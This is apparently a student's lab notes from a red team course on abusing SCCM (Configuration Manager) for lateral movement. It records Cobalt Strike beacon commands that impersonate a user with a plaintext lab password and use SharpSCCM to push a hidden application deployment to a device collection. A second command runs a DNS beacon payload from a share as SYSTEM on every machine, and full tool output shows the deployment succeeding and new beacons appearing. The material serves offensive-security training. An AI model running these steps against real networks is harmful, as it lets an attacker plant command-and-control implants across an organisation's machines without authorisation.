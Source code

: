 initially wasn't working, had to update gpo for follow along look at [[3.1 Create & Link a GPO - After full lab reset]]

- once `GPO` was updated and `machines` were reset this command worked

With Full or Application Administrator privileges over a device or a collection, we can deploy scripts or applications to aid in lateral movement.  To execute a command on every device in the DEV collection, we could do `exec -n DEV -p <path>`.

`make_token DEV\jking Qwerty123`

```powershell
[12/20 22:31:20] beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner
[12/20 22:31:25] [+] host called home, sent: 37 bytes
[12/20 22:31:25] [+] Impersonated DEV\jking (netonly)

[+] received output:
[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: scm-1.cyberbotic.io
[+] Site code: S01
[+] Connecting to \\scm-1.cyberbotic.io\root\SMS\site_S01
[+] Creating new application: Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f
[+] Application path: C:\Windows\notepad.exe
[+] Updated application to hide it from the Configuration Manager console
[+] Updated application to run in the context of the logged on user
[+] Successfully created application
[+] Creating new deployment of Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f to DEV (S0100014)
[+] Found the Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f application
[+] Successfully created deployment of Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f to DEV (S0100014)
[+] New deployment name: Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f_S0100014_Install
[+] Waiting for new deployment to become available...

[+] received output:
[+] New deployment is available, waiting 30 seconds for updated policy to become available

[+] received output:
[+] Forcing all members of DEV (S0100014) to retrieve machine policy and execute any new applications available

[+] received output:
[+] Waiting 1 minute for execution to complete...

[+] received output:
[+] Cleaning up
[+] Found the Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f_S0100014_Install deployment

[+] received output:
[+] Deleted the Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f_S0100014_Install deployment
[+] Querying for deployments of Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f_S0100014_Install

[+] received output:
[+] No remaining deployments named Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f_S0100014_Install were found

[+] received output:
[+] Found the Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f application

[+] received output:
[+] Deleted the Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f application
[+] Querying for applications named Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f

[+] received output:
[+] No remaining applications named Application_c6ff63f5-5204-4671-8624-f6aa3e1ffd4f were found
[+] Completed execution in 00:02:10.7667067

```

By default, the above will execute Notepad as the user currently logged into each machine.  If a user is not logged in, then the command won't execute.  We can force it to execute as SYSTEM using the `-s` parameter, and this will execute on every machine regardless of whether a user is currently logged in or not.  As with the GPO Abuse chapter, we can upload and execute a DNS Beacon payload.


so this command will force execution as system, notice that three `ghost beacons` populated meaning our `dns` `beacons` worked.
`beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner`
![[Pasted image 20231220174110.png]]
going to `getuid` to show which systems we are on now.
![[Pasted image 20231220174630.png]]
three more `ghost` beacons just populated, going to `getuid` to see who they are
![[Pasted image 20231220180448.png]]
`DC-2` beacon populated
![[Pasted image 20231220180515.png]]

# Full Visual
![[Pasted image 20231220181706.png]]
![[Pasted image 20231220181720.png]]